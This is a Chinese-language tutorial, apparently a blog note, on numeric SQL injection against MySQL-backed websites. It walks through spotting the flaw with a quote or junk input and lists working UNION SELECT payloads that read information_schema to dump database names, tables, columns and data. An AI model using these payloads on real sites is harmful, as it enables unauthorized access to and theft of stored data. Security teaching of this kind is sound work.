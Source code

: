 而sql漏洞也分为了三种

## 数字型

```
select * from tables where id = 1;
```

数字型多见于url栏里
![](https://img-blog.csdnimg.cn/img_convert/42badabb0f6e9dbada353fc5fbb0f9a2.png)
测试的方式也很简单，我们可以直接在这个数字的后面加上一些符号来判断有没有sql注入漏洞

```
'
dawdasda  #无意义的英文字母，看网站会不会带入查询
```

![](https://img-blog.csdnimg.cn/img_convert/a83d81e70d8d80b797303094cdb43b63.png)
在数字后加入了一个'符号，使代码闭合错误，就会报错，说明存在sql注入漏洞
![](https://img-blog.csdnimg.cn/img_convert/fcf54dd44df7edefb2ad5d01f6f03305.png)
加入了一大堆无意义的英文字母后也报错了，它将我们输入的东西也带入了查询，说明存在sql注入漏洞
之后就可以选择是用工具去注入还是手动去注入，笔记：

```
MYSQL注入思路框架：
1.信息搜集：数据库用户名，数据库版本，数据库名，操作系统
2.数据注入：mysql低版本（暴力查询或结合读取查询），mysql高版本（information_schema有据查询）
3.高权限注入：常规查询（数据注入），跨库查询（利用注入进行数据库查询），文件读写（利用注入进行文件读写）

猜测网站数据库的字段数 ：order by x
报错联合查询：?id=-1 union select 1,2,3,4
数据库版本：version()
数据库名：database()
数据库用户：user()
操作系统：@@version_compile_os


information_schema.schemata:记录所有的数据库名
information_schema.tables : 记录所有表名的表
information_schema.columns : 记录所有列的表
schema_name:数据库名
tables_name :表名
columns_name :列名
tables_schema :指定表里的数据库名

获取所有的数据库名
首先通过?id=-1 order by 1,2,3,4,5,6来查询数据库的字段数，数字依次增加，直到网站报错前即可
```

```
?id=-1 union select 1,group_concat(schema_name),2,3,4 from information_schema.schemata

查询指定数据库下的表名信息
?id=-1 union select 1,group_concat(table_name),2,3,4 from information_schema.tables where table_schema = '数据库名'

查询指定表下的列名信息
?id=-1 union select 1,group_concat(column_name),2,3,4 from information_schema.columns where table_name = '表名'

查询指定列下的数据信息
?id=-1 union select 1,列名,2,3,4 from 表名

猜解多个数据：limit x,1

```
